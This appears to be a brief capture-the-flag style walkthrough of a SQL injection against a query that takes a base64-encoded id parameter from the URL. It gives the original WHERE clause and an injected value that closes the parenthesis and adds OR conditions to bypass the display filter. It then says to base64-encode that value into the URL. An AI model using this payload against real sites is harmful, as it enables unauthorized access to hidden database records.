 In the url we see a base64 encoded id value and the code below:
<pre>
WHERE (id IS NOT NULL) AND (ID = ? AND display = 1)	
</pre>
Where '?' = decoded id value.<br>
To exploit this we need to change query:
<pre>
WHERE (id IS NOT NULL) AND (ID = 0) OR (ID is NULL) OR (1=2 AND display = 1)	
</pre>
Now encode '0) OR (ID is NULL) OR (1=2' to base64 and put as id value in url.<br>
GL